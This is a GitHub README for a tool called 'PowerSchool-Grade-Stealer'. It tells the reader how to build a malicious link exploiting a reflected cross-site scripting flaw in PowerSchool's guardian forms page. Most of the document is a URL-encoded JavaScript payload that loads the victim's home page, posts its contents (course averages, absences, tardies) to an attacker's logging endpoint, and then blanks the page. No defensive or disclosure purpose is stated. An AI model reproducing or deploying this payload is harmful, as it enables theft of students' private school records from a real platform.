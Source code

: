 # PowerSchool-Grade-Stealer

The script in this repository generates a link for the victim to click on, but it only works on macOS and Linux (if you remove the pbcopy command). A link can be created manually by doing the following:

1. Set up an endpoint URL that logs POST requests to it (can be set up at [Pipedream](https://pipedream.com) by creating an event source).
2. In the following text, replace the text in brackets (and the brackets themselves) with the corresponding information that is described in the brackets:

**[the base URL of the website where PowerSchool is installed]**/guardian/forms.html?sharetype=%22%3Bfunction%20makeHttpObject()%7Btry%7Breturn%20new%20XMLHttpRequest()%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Msxml2.XMLHTTP%22)%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Microsoft.XMLHTTP%22)%7Dcatch(error)%7B%7Dthrow%20new%20Error(%22Could%20not%20create%20HTTP%20request%20object.%22)%3B%7Dvar%20request%3DmakeHttpObject()%3Brequest.open(%22GET%22%2C%22[**the base URL of the website where PowerSchool is installed]**/guardian/home.html%22%2Ctrue)%3Brequest.send(null)%3Brequest.onreadystatechange%3Dfunction()%7Bif(request.readyState%3D%3D4)console.log(request.responseText)%7D%3B%0A(function()%7B%0A%20%20%20%20var%20oldLog%20%3D%20console.log%3B%0A%20%20%20%20console.log%20%3D%20function%20(message)%20%7B%0A%20%20%20%20%20%20%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20%20%20%20%20%20%20xhttp.open(%22POST%22%2C%20%22[**the endpoint's URL]**%22%2C%20true)%3B%0A%20%20%20%20%20%20%20%20xhttp.send(message)%3B%0A%20%20%20%20%20%20%20%20oldLog.apply(console%2C%20arguments)%3B%0A%20%20%20%20%7D%3B%0A%7D)()%3B%0Adocument.body.innerHTML%20=%20%27%27%2F%2F

Note: This only sends the averages of each course and the absences/tardies.
